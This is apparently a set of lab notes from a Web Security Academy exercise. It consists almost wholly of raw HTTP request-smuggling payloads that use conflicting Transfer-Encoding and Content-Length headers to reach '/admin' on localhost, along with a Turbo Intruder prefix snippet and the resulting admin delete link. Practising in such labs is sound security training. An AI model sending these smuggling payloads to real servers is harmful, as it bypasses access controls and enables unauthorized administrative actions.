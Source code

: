 so smuggle a GET request for admin on local host
GET /admin HTTP/1.1
Host: localhost
--
##### turbo truder now:
    # This will prefix the victim's request. Edit it to achieve the desired effect.
    prefix = '''GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1'''
---
 
after a few reqs
POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
0
---
POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 12
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
70
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0
---
POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
0
---
Response:
`<a href="/admin/delete?username=carlos">Delete</a>`
---
##### And so I sent this one to repeater: